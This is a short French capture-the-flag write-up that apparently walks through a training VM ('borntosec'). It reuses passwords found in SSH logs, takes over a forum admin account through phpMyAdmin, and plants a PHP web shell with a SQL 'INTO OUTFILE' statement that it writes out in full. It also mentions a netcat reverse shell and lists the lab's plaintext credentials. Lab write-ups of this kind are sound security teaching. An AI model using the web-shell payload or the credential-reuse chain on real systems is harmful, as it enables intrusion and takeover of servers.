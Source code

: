 # WriteUp1

- Je recupere les [logs du ssh](https://192.168.1.96/forum/index.php?id=6) dans le forum 
- `python3 ssh_parse.py`
<pre>
{'test', 'support', 'naos', 'lmezard', 'guest', 'nagios', 'ubnt', 'root', <strong>'!q\\]Ej?*5K5cy*AJ'</strong>, 'ftpuser', 'PlcmSpIp', 'adm', 'user', 'adam', 'nvdb', 'admin', 'pi'}
</pre>
- Je me connecte avec les login `lmezard` et `!q\]Ej?*5K5cy*AJ`
- le mail est disponible dans les parametres de l'user
- Je me connecte au server imap avec `lmezard@borntosec.net` et `!q\]Ej?*5K5cy*AJ` avec evolution ou sur le site [webmail](https://borntosec.net/webmail/)
- Un mail est disponible
<pre>
Hey Laurie,

You cant connect to the databases now. Use <strong>root/Fg-'kKXBj87E:aJ$</strong>

Best regards.
</pre>
- On peut donc se connecter sur le [PhpMyAdmin](https://192.168.1.96/phpmyadmin/).
- En changant le password de admin par celui de lmezard on peut se connecter en tant qu'admin sur le forum
- J'essaye maintenant d'inserer un code php dans le serveur web pour qu'il soit executer par celui ci
- en exutant cett commande sql je peux ecrire dans un fichier
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```
- en testant tout les dossiers du forum un est executable templates_c
- Je creer donc un fichier avec un reverse shell pour que se soit plus facile et je creer un serveur en local avec netcat
- dans les home un dossier est presant LOOKATME qui contient un dossier password
```
lmezard:G!@M6f4Eatau{sF"
```
- On peut se connecter au FTP grace a ces login
